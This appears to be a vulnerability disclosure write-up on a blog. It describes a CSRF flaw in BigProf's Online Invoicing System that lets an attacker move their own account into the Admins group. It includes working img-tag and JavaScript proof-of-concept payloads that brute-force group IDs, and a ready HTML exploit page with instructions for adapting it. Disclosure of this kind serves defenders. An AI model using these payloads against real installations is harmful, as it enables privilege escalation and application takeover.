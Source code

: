 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System Application Takeover via CSRF
tags: [CVE-Writeup, CSRF]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Cross Site Request Forgery
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System offers a functionality which allows an administrator to move the records of members across groups. The endpoint which is responsible for moving members across groups lacks CSRF protection thus resulting in an attacker being able to escalate their privileges to Administrator and effectively taking over the application by having the application's admin browse to an attacker controlled page.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

When browsing to `admin/pageTransferOwnership.php` with a user that has administrative privileges, the "Batch Transer of Ownership" functionality will be made available:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/batch.png)

As stated by the application, this functionality allows an administrator to:
> The batch transfer wizard allows you to transfer data records of one or all members of a group (the source group) to a member of another group (the destination member of the destination group)

After selecting the required dropdowns, an example of a successful request will look as follows:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/request.png)

Let's break down the above request to make it easier to understand:

~~~
sourceGroupID = The ID of the group you would like to be moving records from. 
sourceMemberID = The username of the member you would like to move records for. Using -1 means that all user records will be moved.
destinationGroupID = The ID of the group you would like to move records to.
moveMembers = If 1 that means it will move the member and their data to the group and not overrwrite any existing records in the destination group.
~~~

Something else you might notice in the request is that there appears to be no CSRF protecton such is in the form of a token (whether it be a parameter or cookie). Furthermore looking closely, we notice that the application does not utilize `Same Site Cookies` meaning this this endpoint is most likely vulnerable to Cross-Site Request Forgery.

Lets quickly browse to the responsible code to confirm there are no hidden protections:



However as shown in the request above in order for succesful exploitation to occur, an attacker would need to know the values of the following parameters:

~~~
sourceGroupID
destinationGroupID
~~~

After enumerating the application, it appears there is no concrete way for an attacker to retrieve the Group ID in which they are part of. Furthermore, it appears there is no way for the attacker to retrieve the Group ID of the Administrator's group either. While normally this could be seen as the nail in the coffin, there is a way around this.

An astute attacker would observe that on a fresh install, there are two groups which are created automatically with the following ID's:

~~~
Anonymous - 1
Admins - 2
~~~

Meaning that anytime a new custom group will be created, it will start from ID 3 and increment from there. Finally, the application does not allow the administrator to delete the pre-created groups meaning the ID of the Admin group will always result in 2.

With this in mind, an attacker is now aware of the `destinationGroupID` and will only need the `sourceGroupID` in which they are apart of in order to transfer their account to the Admin's group therefore granting themselves administrator privileges.

As mentioned earlier, this value will start from 3 and increment based on the number of custom groups the application has.

Since the endpoint is using a `GET` request to pass the information to the server, the following HTML snippet can be used:

~~~javascript
<img src="http://localhost/admin/pageTransferOwnership.php?sourceGroupID=3&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1"></img>
~~~

Upon the application's administrator visiting a page which contains the above HTML, their browser will try to load the image by requesting the URL above. However instead of loading the image, the browser will follow the URL and trigger the vulnerability. The proof of concept above will attempt to move the records of a member whose username attacker from Group 3 to Group 2.

As mentioned before, the attacker is unaware of the group in which their user lives in. Using the snippet above is effectively playing Russian Roulette as the attacker will have to keep guessing their group. In order to have a good chance of this working, an attacker will need to be extremely lucky.

However instead of relying on luck, the attacker can utilize Javascript to leverage the following proof of concept:

~~~javascript
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
~~~

The above Javascript snippet will result in 10 iterations (3 -> 13) with each iteration creating a new image tag which sets the value of the `sourceGroupId` parameter to the current value of `i` in the iteration. In the end this will result in 10 image tags with each having a different value for the `sourceGroupID` parameter. In this example, 3-13 was used however in a real life scenario an attacker can create as many iterations as they would like. The reason the range starts at 3 is because it was confirmed earlier that any new custom groups start at that index.

Upon the application's administrator visiting this proof of concept, we can confirm that the requests are succesfully executing by taking a look at the browser's DevTools Network Tab:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/network.png)

As such, an attacker is able to host a specially crafted proof of concept that upon being visted by the application's administrator will move the attacker's user into the Admin's user group therefore effectively granting the attacker administrative privileges and allowing them to takeover the application.

# Proof of Concept

~~~html
<html>
<body>
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
</body>
</html>
~~~

**Replace above**:
- Range to suit your needs
- URL pointing to the vulnerable application
- Value of sourceMemberID with your username
